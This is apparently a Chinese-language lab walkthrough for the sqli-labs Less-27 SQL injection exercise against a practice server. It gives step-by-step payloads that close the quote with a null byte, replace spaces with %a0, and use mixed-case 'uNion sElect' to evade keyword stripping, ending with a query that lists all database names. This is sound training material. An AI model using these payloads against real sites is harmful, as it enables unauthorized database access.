

# Less-27_01
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
1. http://47.100.118.240:8888/Less-27/?id=1 有数据
2. http://47.100.118.240:8888/Less-27/?id=1’ 此时报错，说明可能存在注入
3. http://47.100.118.240:8888/Less-27/?id=1‘;%00 成功将单引号进行闭合掉，说明存在注入
4. http://47.100.118.240:8888/Less-27/?id=1‘   %a0 order %a0  by  %a0  3    ;%00  根据hint可以进行这样的order by
5. http://47.100.118.240:8888/Less-27/?id=1‘   %a0 union  %a0  select  %a0 1, 2, 3    ;%00 此时返回错误，我们看下源码
发现union select等关键字被替换为空，我们尝试大小写混合
6. http://47.100.118.240:8888/Less-27/?id=1‘   %a0 uNion  %a0  sElect  %a0 1, 2, 3    ;%00 此时返回正常数据
7. http://47.100.118.240:8888/Less-27/?id=111‘   %a0 uNion  %a0  sElect  %a0 1, 2, group_concat(schema_name)  %a0  from  %a0 information_schema.schemata    ;%00  拿到所有的数据库，一定要留意hint的提示